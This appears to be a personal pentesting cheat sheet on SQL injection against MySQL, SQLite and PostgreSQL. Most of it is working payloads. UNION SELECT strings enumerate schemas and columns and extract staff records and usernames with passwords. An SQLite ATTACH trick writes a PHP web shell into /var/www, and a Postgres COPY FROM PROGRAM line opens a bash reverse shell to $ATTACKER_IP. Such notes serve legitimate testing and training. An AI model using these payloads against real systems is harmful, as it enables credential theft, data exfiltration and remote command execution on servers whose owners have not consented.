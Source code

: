get current database
---
#sql #database

```sql
database()
```
---
get current user
---
```sql
user()
```
---
get DB server version
--
```sql
@@version
```
---
List of possible SQLi payloads:
---
```wordlist
/usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt
```

Enumerate all DBs
---
```sql
' UNION SELECT 1,2,3,4,5,concat(schema_name) FROM information_schema.schemata -- '
```

```php
// information_schema,Staff,users
```
---
Get current DB name (not really necessary)
---
```sql
' UNION SELECT 1,2,3,4,5,database() -- -
```

```php
// Staff
```
---
Select all tables in DB 'Staff'
---
```sql
' UNION SELECT 1,2,3,4,5,concat('|>', TABLE_NAME, '<|') FROM information_schema.TABLES WHERE table_schema='Staff' -- '
```
---
Enumerate all columns in table 'StaffDetails'
---
```sql
' UNION SELECT 1,2,3,4,5,concat('|>',column_name) FROM  information_schema.COLUMNS WHERE TABLE_NAME='StaffDetails' -- '
```

```php
// id,firstname,lastname,position,phone,email,reg_date
```

Extract all records from table 'StaffDetails'

```sql
' UNION SELECT id,firstname,lastname,position,phone,email FROM StaffDetails -- '
```

Enumerate all columns in table "Users"

```sql
' UNION SELECT 1,2,3,4,5,concat('|>',column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='Users' -- '
```

```php
// UserID,Username,Password
```

Extract all records from table "Users"

```sql
' UNION SELECT 1,2,3,UserID,Username,Password FROM Users -- '
```

Repeat same for the DB 'users'

```sql
' UNION SELECT 1,2,3,4,5,concat('|>',TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='users' -- '
```

Enumerate all columns in table "UserDetails"

```sql
' UNION SELECT 1,2,3,4,5,concat('|>',column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='UserDetails' -- '
```

```sql
' UNION SELECT 1,id,firstname,lastname,username,password FROM users.UserDetails -- '
```

```shell
grep -shzoP "(\|>)(.*?)(<\|)" response | sed  "s/|>/ /g" | sed "s/<|/\n/g"
```
---
Other UNION SELECT:
---
```sql
0' UNION SELECT 1,2,database()
```

```sql
0' UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

```sql
0' UNION SELECT 1,2,group_concat(column_name) FROM information_schema.COLUMNS WHERE table_name = 'staff_users'
```

```sql
0' UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```

---
SQL injection cheat sheet:
---
[https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)

---
SQLite injection to command injection:
---
```sql
ATTACH DATABASE '/var/www/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--
```

---
SQLite SQLite3
---
```sql
SELECT sql FROM sqlite_master WHERE type='table'
```

```sql
SELECT * FROM sqlite_master WHERE type='table';
```
---
POSTGRES
---
List all tables in current DB
```sql
SELECT * FROM pg_catalog.pg_tables WHERE schemaname != 'pg_catalog' AND schemaname != 'information_schema';
```

Reverse shell via command injection option:
```sql
CREATE TABLE cmd_execit(cmd_output text); COPY cmd_exec FROM PROGRAM 'bash -c \"bash -i >& /dev/tcp/$ATTACKER_IP/4444 0>&1\"'
```

```sh
psql -U $USER -h $TARGET_IP -p $PORT
```
and then:
```
\l
#list databases
\c $DB_NAME
#select database
\dt
#display tables in database
```